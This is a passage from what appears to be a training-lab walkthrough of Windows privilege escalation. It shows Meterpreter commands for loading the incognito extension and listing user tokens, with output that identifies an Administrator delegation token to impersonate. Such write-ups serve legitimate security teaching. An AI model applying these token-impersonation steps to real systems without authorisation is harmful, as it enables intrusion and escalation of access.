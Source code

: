 #### **Command Used:**
```bash
load incognito
```

#### **Success Confirmation:**
```bash
meterpreter > load incognito
Loading extension incognito ... Success.
```

#### **🔧 What Incognito Provides:**
- **Token enumeration** - Ability to list available user tokens
- **Token impersonation** - Capability to assume other user identities
- **Privilege escalation** - Path to higher access levels
- **Post-exploitation** - Enhanced capabilities for mission completion

#### **Why This Step is Critical:**
Without the incognito module, we cannot perform token-based privilege escalation, which is often the most reliable method in Windows environments.

---

### **Step 7: Token Discovery and Enumeration**

**What We're Doing:** Finding available user tokens that we can potentially impersonate

#### **Command Used:**
```bash
list_tokens -u
```

#### **🎯 Discovery Results:**
```bash
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
     Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available
```

#### **🏆 Critical Discovery Analysis:**
- **ATTACKDEFENSE\Administrator** - Perfect target for escalation
- **Delegation token available** - Full impersonation capabilities
- **Administrator account** - Highest privilege level achievable
- **Domain context** - ATTACKDEFENSE is the domain/workstation name
